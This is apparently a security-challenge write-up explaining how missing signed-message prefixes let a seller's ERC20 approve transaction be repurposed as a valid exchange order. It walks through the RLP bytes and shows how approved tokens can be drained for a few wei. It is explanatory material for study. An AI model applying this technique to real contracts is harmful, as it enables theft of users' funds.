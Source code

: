 # Exploit

Orders are signed without including the `\x19Ethereum Signed Message:\n` prefix. Transactions are potentially valid orders, and in particular, type-2 ERC20 approval transactions are a match. This means that, for any order, an attacker can pick up the `approve` transaction sent by the seller to the token contract, and repurpose it as a valid order with an extremely favorable rate.

The file `test/exploit.js` has a proof of concept of the attack. In the example, the `approve` transaction looks like the following:

```json
{
  type: 2,
  accessList: [],
  maxPriorityFeePerGas: BigNumber { value: "1000000000" },
  maxFeePerGas: BigNumber { value: "69379087998" },
  gasLimit: BigNumber { value: "50000" },
  to: '0x5FbDB2315678afecb367f032d93F642f64180aa3',
  value: BigNumber { value: "0" },
  nonce: 0,
  data: '0x095ea7b3000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f051200000000000000000000000000000000000000000000003635c9adc5dea00000',
  r: '0x88e28705819334231af97f7c776352b627d722522d73be127e60d1d4a109d616',
  s: '0x1944ba785436c6dae6ae33e435a6ccad2eb781e1b862ca68c118a147ed0c1eac',
  v: 1,
  chainId: 1,
}
```

Which serializes as:

```
0x02f86d0180843b9aca0085102e6f23c282c350945fbdb2315678afecb367f032d93f642f64180aa380b844095ea7b3000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f051200000000000000000000000000000000000000000000003635c9adc5dea00000c0
```

Unpacking from the RLP encoding, we see that:

```
02 # type
f86d # tx size (f8 means length field has size 1, 6d is actual length)
01 # chainId
80 # nonce (zero)
843b9aca00 # maxPriorityFeePerGas
85102e6f23c2 # maxFeePerGas
82c350 # gasLimit
94 # to length (20 bytes)
5fbdb2315678afecb367f032d93f642f64180aa3 # to (token contract address)
80 # value (zero)
b844 # data length (more rlp encoding shenanigans)
095ea7b3000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f051200000000000000000000000000000000000000000000003635c9adc5dea00000 # data (approve, spender, amount)
c0 # access list (empty)
```

Which we can reshuffle as the following:

```
02f86d0180843b9aca0085102e6f23c282c35094 # referrer
5fbdb2315678afecb367f032d93f642f64180aa3 # token address
80b844095ea7b3000000000000000000 # rate
000000 # nonce
e7f1725e7734ce288f8367e1bb143e90bb3f0512 # exchange contract
00000000000000000000000000000000000000000000003635c9adc5dea00000 # amount
c0 # order type
```

This matches the Order encoding prior to recovering the signer:

- The first 20 bytes (referrer) are unimportant, as long as they are indeed 20 bytes long. This holds for chainId 1 (mainnet), for reasonable values of gas fees (1 gwei priority, 50 gwei base fee), and for the ~50k gas usage of an ERC20 approval.
- The rate is guaranteed to start with `0x80` since `value` for an approval should be zero (rlp encoded as 0x80), which ensures a absurdly favorable rate for the buyer.
- The nonce can be skipped, since we'll be attacking this seller for all the value they have approved to the exchange, so there is no need for more than one attack.
- The address of the exchange is guaranteed to be in the `data` field, as is the recipient of the approval.
- The approval amount matches the amount of the assembled order, which allows the attacker to steal all approved funds.
- The order type is pretty much ignored as long as it's not zero, and will usually be `c0` since access lists are rarely populated.

The end result is that any seller can be drained of all the tokens they have approved for just a few wei.